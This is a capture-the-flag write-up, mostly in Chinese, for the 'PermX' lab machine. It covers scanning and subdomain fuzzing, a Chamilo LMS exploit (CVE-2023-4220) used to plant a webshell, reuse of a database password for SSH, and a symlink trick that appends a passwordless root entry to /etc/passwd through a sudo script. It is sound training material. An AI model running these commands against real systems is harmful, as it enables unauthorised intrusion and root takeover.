


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Basic Scan

### Nmap

```
namp 10.10.11.23 -A -O
```


**Opened Ports：22、80**

**Server：Apache 2.4.52 (Ubuntu)**

### Subdomain Fuzzing

Github：[TheKingOfDuck/fuzzDicts: Web Pentesting (github.com)](https://github.com/TheKingOfDuck/fuzzDicts)

```
ffuf -w main.txt -u http://permx.htb/ -H "Host:FUZZ.permx.htb" -mc 200
```



找到两个子域名：**www**、**lms**

更新**/etc/hosts**


### Dirsearch

```
dirsearch -u http://permx.htb/
```


```
dirsearch  -u lms.permx.htb
```


在**LICENSE**里得到**Chamilo LMS**的版本信息


### Gobuster

```
gobuster dir -u http://permx.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```


## CVE-2023-4220

Github：[Rai2en/CVE-2023-4220-Chamilo-LMS: CVE-2023-4220 (github.com)](https://github.com/Rai2en/CVE-2023-4220-Chamilo-LMS)


成功上传webshell




以及反弹shell


发现mysql用户名以及密码


```
mysql -u chamilo -p03F6lY3uXAP2bkW8

select username,password from user;
```


尝试进行爆破，失败。


存在一个mtz的用户，尝试用数据库的密码进行ssh登录，成功。


## Privilege Escalation


这个脚本用于确保安全地为 `/home/mtz/` 目录下的某个文件设置**特定用户的权限**，防止未经授权的目录访问或操作。

```
touch test
ln -sf /etc/passwd /home/mtz/test  # 将test链接到/etc/passwd
sudo /opt/acl.sh mtz rw /home/mtz/test  #给test文件设置为mtz，并且可读可写
echo "hyh::0:0:hyh:/root:/bin/bash" >> ./test #将用户信息写入test
su hyh 
```


## Summary

端口、子域名扫描获取web服务相关信息。从CVE入手获取到普通shell权限。

在/opt/acl.sh中可以构造软链接，将写入的用户信息链接到/etc/passwd即可获取root权限。
